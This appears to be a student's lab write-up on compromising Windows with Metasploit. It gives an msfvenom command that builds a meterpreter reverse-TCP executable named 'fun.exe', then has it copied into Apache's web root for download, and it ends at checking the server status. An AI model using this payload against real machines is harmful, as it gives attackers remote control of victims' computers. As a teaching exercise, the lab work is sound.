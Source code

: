 
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
### NAME:N V MOHANA KRISHNA
### REG NO:212224100039
### OUTPUT:

<img width="576" alt="image" src="https://github.com/user-attachments/assets/c06b56b4-a982-40a1-9e7f-7c044328aa84">

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.29.175 -f exe > fun.exe

<img width="713" alt="image" src="https://github.com/user-attachments/assets/1686c359-94b9-4c61-a93a-df218cdedef9">

copy the fun.exe into the apache /var/www/html folder 

<img width="343" alt="image" src="https://github.com/user-attachments/assets/51ce9b94-49e1-4733-9c4a-3c444bfd0a67">

Start apache server sudo systemctl apache2 start

<img width="359" alt="image" src="https://github.com/user-attachments/assets/bfb3314a-07c3-4406-a31d-f70c0c25abdb">

Check the status of apache2
